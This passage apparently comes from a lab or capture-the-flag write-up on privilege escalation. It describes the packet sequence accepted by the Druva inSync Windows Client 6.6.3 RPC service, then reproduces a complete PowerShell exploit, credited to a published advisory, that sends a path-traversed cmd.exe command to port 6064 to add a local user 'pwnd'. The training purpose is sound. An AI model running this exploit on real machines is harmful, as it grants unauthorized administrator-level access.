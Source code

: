 ![task7-diagram](./images/task7-diagram.png)

The first packet is simply a hello packet that contains a fixed string. The second packet indicates that we want to execute procedure number 5, as this is the vulnerable procedure that will execute any command for us. The last two packets are used to send the length of the command and the command string to be executed, respectively.

Initially published by Matteo Malvica [here](https://packetstormsecurity.com/files/160404/Druva-inSync-Windows-Client-6.6.3-Privilege-Escalation.html), the following exploit can be used in your target machine to elevate privileges and retrieve this task's flag. For your convenience, here is the original exploit's code:

```
$ErrorActionPreference = "Stop"

$cmd = "net user pwnd /add"

$s = New-Object System.Net.Sockets.Socket(
    [System.Net.Sockets.AddressFamily]::InterNetwork,
    [System.Net.Sockets.SocketType]::Stream,
    [System.Net.Sockets.ProtocolType]::Tcp
)
$s.Connect("127.0.0.1", 6064)

$header = [System.Text.Encoding]::UTF8.GetBytes("inSync PHC RPCW[v0002]")
$rpcType = [System.Text.Encoding]::UTF8.GetBytes("$([char]0x0005)`0`0`0")
$command = [System.Text.Encoding]::Unicode.GetBytes("C:\ProgramData\Druva\inSync4\..\..\..\Windows\System32\cmd.exe /c $cmd");
$length = [System.BitConverter]::GetBytes($command.Length);

$s.Send($header)
$s.Send($rpcType)
$s.Send($length)
$s.Send($command)
```
